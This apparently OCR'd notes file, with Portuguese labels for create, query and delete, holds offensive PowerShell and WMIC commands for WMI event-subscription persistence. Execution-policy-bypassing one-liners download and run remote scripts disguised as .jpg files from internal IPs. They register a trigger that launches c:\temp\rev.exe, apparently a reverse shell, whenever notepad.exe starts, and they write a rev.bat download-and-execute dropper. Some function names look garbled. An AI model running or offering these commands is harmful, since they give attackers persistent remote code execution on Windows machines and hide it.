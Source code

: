 # temp


será apagado

criar
powershell -nop -exe bypass -c "iex(New-Object Net.WebClient).DownloadString('http://10.0.2.50/wmic.jpg'); pettily -EventName reversenotepad -PermanentCommand 'cmd.exe /c c:\temp\rev.exe' -Trigger ProcessStart -ProcessName notepad.exe"

consultar
powershell -nop -exe bypass -c "iex(New-Object Net.WebClient).DownloadString('http://10.0.2.50/wmic.jpg'); snaking -Name reversenotepad"

excluir
powershell -nop -exe bypass -c "iex(New-Object Net.WebClient).DownloadString('http://10.0.2.50/wmic.jpg'); snaking -Name reversenotepad | Remove-WmiObject"
echo powershell.exe -nop -exe bypass iex(new-object net.webclient).downloadstring('http://172.16.192.200/fig.jpg') > rev.bat


SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name = 'notepad.exe'

wmic /namespace:"\\root\subscription" PATH __EventFilter delete

wmic /namespace:"\\root\subscription" PATH __EventConsumer delete

wmic /namespace:"\\root\subscription" PATH __FilterToConsumerBinding delete
